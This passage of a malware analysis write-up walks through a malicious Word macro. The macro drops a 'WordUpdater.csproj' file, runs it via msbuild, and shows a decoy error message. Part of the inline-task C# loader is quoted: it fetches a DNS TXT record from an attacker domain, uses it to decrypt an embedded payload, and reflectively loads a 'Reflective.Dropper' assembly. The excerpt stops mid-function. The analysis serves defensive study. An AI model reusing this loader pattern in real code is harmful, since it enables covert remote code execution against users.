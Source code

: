 

So this VBA will check that .NET is installed on the box, and then write
a file to the user's Download folder named "WordUpdater.csproj". Then,
it will run it with msbuild. Finally, it will pop the decoy message box
we noted earlier saying that the document doesn't work on this version
of office.

Interestingly, if .NET isn't install, it will do a dns lookup of
pwdas71.healthservices-dns.com. This is likely some kind of telemetry
for the actor.

## Wordupdater.csproj

A .csproj file is a Visual Studio .NET C# Project. I'm not an expert in
C# or Visual Studio, but looking through the code, it's clear what it's
doing.

### Inline Task

The majority of this file is a Task, which is some code that should run
at compile time by msbuild (which makes sense since the attacker is
calling this code with msbuild). I found [this tutorial on building a
Task](https://msdn.microsoft.com/en-us/library/dd723643.aspx), but the
short version is, you add a Task structure under the main Project tag,
which has a `<UsingTask>` tag and a `<Task>` tag. The former defines how
the task will run, and the latter contains the code.

In this case, the `<UsingTask>` tag indicates that it will run a
`TaskName="Submerge"`. Then in the `<Task>` we find
`public class Submerge : Task, ITask`.

### Main Code

The main code that runs is here (with another base64 blob snipped):



                    public override bool Execute()
                    {
                        Dive();
                        return true;
                    }

                    public static void Dive()
                    {
                        string fun = "07L+ZEb+PcKgBfai...snip...cSdo0Cn9Fr+NtvY=";
                        string chk = "7juMJAX+sK5QZKco3BfZuodUZ5GQyeGCZlZ6nwhGpPY=";

                        int retries = 30;
                        while(retries > 0)
                        {
                          string reply = GetTXTRecord("mx.healthservices-dns.com");
                          byte[] replyB = Encoding.ASCII.GetBytes(reply);
                          try
                          {
                            byte[] decr = AESDecrypt(SHA256(replyB), System.Convert.FromBase64String(fun));
                            string new_chk = System.Convert.ToBase64String(SHA256(decr));
                            if(chk == new_chk)
                            {
                              Assembly a = Assembly.Load(decr);
                              Type type = a.GetType("Reflective.Dropper");
                              MethodInfo methodInfo = type.GetMethod("Dive");
                              if (methodInfo == null) { return; }
                              try
                              {
                                var o = Activator.CreateInstance(type);
                                object[] arguments = null;